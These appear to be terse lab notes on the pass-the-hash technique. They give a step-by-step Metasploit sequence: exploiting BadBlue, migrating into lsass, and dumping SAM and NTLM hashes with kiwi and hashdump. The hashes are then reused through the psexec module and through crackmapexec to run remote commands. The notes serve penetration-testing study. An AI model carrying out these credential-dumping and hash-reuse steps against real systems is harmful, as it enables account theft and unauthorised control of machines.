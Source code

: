 #### Pass-The-Hash Attack
- Pass the hash is an exploitation technique that involves capturing or harvesting NTLM hashes or clear-text
-  passwords and utilizing them to authenticate with the target legitimately.

#### Tools
- metasploit PsExec module
- Crackmapexec
#### Lab environment
- service postgresql start
- msfconsole
- search badblue
- use 1 [badblue_passthru]
- pgrep lsass [ run this command in meterpreter]
- migrate 780 [ 780 is found from previous command]
- getuid 
- load kiwi
- lsa_dump_sam [this is dump all the hashes]
- hashdump [this also dump the hashes but in this case first hash is same for all users and 2nd one is NTLM hash]
- ctrl+z [run the meterpreter session in background]
- search psexec
- use /exploit/windows/smb/psexec 
- set everythings like RHOSTS,LPORT etc
- set SMBUser user_name
- set SMBPass hash1:hash2
- set different LPORT as one meterpreter session is running in one port
- set target
- set target Native\ upload [we can set target as our requirement]
- 
#### crackmapexec
- after getting NTLM hass we can login using this tool
- crackmapexec smb 10.10.10.25 -u Administrator -H "only NTLM hash here"
- crackmapexec smb 10.10.10.25 -u Administrator -H "only NTLM hash here"  -x "whoami" [ in x parameter value we can use different command as we need]



